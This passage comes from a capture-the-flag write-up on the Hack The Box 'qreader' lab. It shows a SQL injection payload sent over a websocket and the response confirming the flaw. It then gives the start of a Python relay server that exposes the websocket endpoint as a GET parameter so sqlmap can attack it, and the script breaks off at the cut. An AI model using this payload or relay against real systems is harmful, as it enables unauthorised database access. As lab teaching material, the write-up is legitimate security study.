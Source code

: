 When I send a double quote I notice that the server crashes, which could indicate that I ended up creating an invalid SQL query. To confirm I try a SQL injection payload:

```ansi
> hello" or "" = "
< {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

And I get the version back. This implies that the endpoint is vulnerable to SQLi and the query probably looks something like this.

```sql
select * from versions where version = "[version]";
```

### Using SQLMap

Because of the weird websocket implementation, I can’t use `sqlmap` directly as I did in [Soccer.](https://nvd.sh/post/hack-the-box-soccer/) While reading online, I found [this](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) article describing how to do a blind SQLi over a websocket connection. While `sqlmap` nowadays natively supports websocket connections, it still has some limitations. But in this case, I can use the same idea to abstract the weird web socket implementation behind a simple `GET` request.

The idea is that I’ll spin up a webserver on [localhost](http://localhost) that exposes a `GET` endpoint with a vulnerable query parameter that will then correctly forward this request to the websocket endpoint. All I have to do then is point `sqlmap` to my local proxy. I modified the script slightly to use the `json` module instead manually wrangling JSON payloads and I cleaned up a few more related to error handling to make debugging easier. My server looked something like this

```python
import json
import sys
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websockets.sync.client import connect

ws_server = "ws://ws.qreader.htb:5789/version"

def send_ws(payload):
    message = {"version": unquote(payload)}
    data = json.dumps(message)
    try:
        with connect(ws_server) as websocket:
            websocket.send(data)
            message = websocket.recv()
    except Exception as ex:
        print(ex, file=sys.stderr)
        return ""

    return message if not None else ""

def middleware_server(host_port, content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split("=", 1)[1]
            except IndexError:
                payload = False

            if payload:
                content = send_ws(payload)
            else:
                content = "No parameters specified!"

```